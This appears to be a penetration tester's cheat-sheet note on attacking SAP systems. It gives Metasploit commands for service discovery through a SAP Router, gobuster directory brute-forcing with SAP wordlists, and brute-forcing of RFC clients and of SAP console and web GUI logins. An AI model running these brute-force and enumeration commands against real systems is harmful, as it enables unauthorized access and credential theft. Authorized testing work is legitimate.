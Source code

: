 # SAP

## Pivot Scan Web Directories

```
msf > use auxiliary/scanner/sap/sap_service_discovery

msf auxiliary(scanner/sap/sap_service_discovery) > set proxies:<SAP_server_IP>:<SAP_Router_PROXY_PORT>

msf auxiliary(scanner/sap/sap_service_discovery) > run rhosts=<IP>
```

## Brute Force Web Directories

```
$ gobuster dir -u <URL> -w /usr/share/seclists/Discovery/Web-Content/URLs/urls-SAP.txt

$ gobuster dir -u <URL> -w /usr/share/seclists/Discovery/Web-Content/sap.txt
```

## Brute Force RFC Clients

```
msf > use auxiliary/scanner/sap/sap_soap_rfc_brute_login

msf auxiliary(scanner/sap/sap_soap_rfc_brute_login) > set proxies:<SAP_server_IP>:<SAP_Router_PROXY_PORT>

msf auxiliary(scanner/sap/sap_soap_rfc_brute_login) > set client 000,001,002,003,004,005,006,007,066

msf auxiliary(scanner/sap/sap_soap_rfc_brute_login) > run rhosts=<IP>
```

## Brute Force Credentials

```
msf > use auxiliary/scanner/sap/sap_mgmt_con_brute_login
```

```
msf > use auxiliary/scanner/sap/sap_web_gui_brute_login
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Enumeration/Cross Platform/SAP]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Network Ports/SAP]]